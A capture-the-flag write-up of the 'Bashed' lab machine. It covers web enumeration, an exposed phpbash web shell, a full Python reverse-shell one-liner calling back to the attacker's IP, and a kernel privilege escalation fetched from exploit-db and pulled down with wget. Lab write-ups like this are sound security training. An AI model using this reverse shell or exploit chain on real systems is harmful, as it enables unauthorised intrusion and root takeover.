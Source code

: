 ```yaml
---
layout: default
---
```


# Bashed

![](./01.png)

We'll kick ```nmap``` off to see what's what.

![](./02.png)

Looks like all we have to work with is a web server on ```80``` running Apache httpd 2.4.18. 

Let's take a look to see what's running on Apache.

![](./03.png)

![](./04.png)

It looks to be a blog of some sort talking about developing a tool called phpbash, which, if we look at the github page, uses the ```shell_exec``` php function.

Let's run ```dirb``` against the site to see if we can find where phpbash was developed on this server.

![](./05.png)

![](./06.png)

It looks like there's a directory called ```dev```.  Let's take a look to see what's there.

![](./07.png)

Looks like there's a ```phpbash.php``` file, let's use this for our purposes.

![](./08.png)

Looks like we're currently running as the ```www-data``` account.

Let's go after the user flag.

![](./09.png)

Let's try to get a more interactive shell.  First we'll setup a listener.

![](./10.png)

Now we're going to use the following command to make our call back, since we don't have ```netcat``` on this machine.

>
> sudo -i -u scriptmanager python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.██.█",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
>

Let's check our listener to see if it worked.

![](./11.png)

Looks like our connection back is good.  Now let's run ```uname -a``` to see what kernel version of linux we're running.

![](./12.png)

Based on the results, we can search for 4.4.0-62-generic privilege escalation.  We'll be using https://www.exploit-db.com/exploits/41458.

We'll use ```vi``` to paste the code and save it, after which we need to use ```gcc``` to compile the binary file.

![](./13.png)

Once we have the file compiled, we'll serve it up via a python web server.

![](./14.png)

Once that's up, we'll pull down the binary using ```wget``` on the target machine.

![](./15.png)

Now we have to change the file permissions for ```pwn``` using ```chmod``` so that we can execute it, and then do so.

![](./16.png)

Looks like we're now running as root, so let's grab the root flag.

![](./17.png)

That's all for now, folks.